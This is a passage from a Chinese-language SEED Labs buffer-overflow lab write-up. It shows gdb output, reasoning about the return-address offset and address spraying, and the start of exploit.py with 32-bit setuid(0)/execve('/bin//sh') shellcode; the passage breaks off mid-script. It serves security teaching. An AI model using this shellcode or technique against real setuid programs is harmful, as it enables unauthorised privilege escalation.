 ```c{.line-numbers}
19	    strcpy(buffer, str);
(gdb) p &buffer
$1 = (char (*)[160]) 0xffffc930
```

然后运行 stack-L2 程序，可以获得 str 数组的大小为 517，我们构建的 badfile 文件大小应该为 517 字节。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L2
Input size: 517
```

现在不知道 buffer 的大小，只知道范围为 100~200，因此从 buffer 的起始地址到返回地址字段的距离应该为 220，增加的 20 是因为编译器会在 buffer 数组的结尾增加额外的空间。这里可以使用 spraying technique，将 badfile 的前 220 个字节填充返回地址 RT。现在主要需要确定 K 的值，从而确定返回地址 RT 的值。按理来说，$\scriptsize{M\le{K\le{N}}}$，但是这里需要注意，GDB 调试时 buffer 的起始地址小于程序真正运行时的起始地址，这里假设小的值为 $\scriptsize{X}$，现在 $\scriptsize{M+X\le{K\le{N+X}}}$。

<div align="center">
    <img src="缓冲区溢出攻击_static//26.png" width="600"/>
</div>

现在取值 $\scriptsize{M=220}$ 而 $\scriptsize{N=450}$，$\scriptsize{X=200}$，则 $\scriptsize{K=420}$，现在构造 exploit.py 文件如下所示：

```python{.line-numbers}
import sys

shellcode = (
"\x31\xc0"
"\x31\xdb"
"\xb0\xd5"
"\xcd\x80"

"\x31\xc0"
"\x50"
"\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x31\xd2"
"\x31\xc0"
"\xb0\x0b"
"\xcd\x80"
).encode('latin-1')
```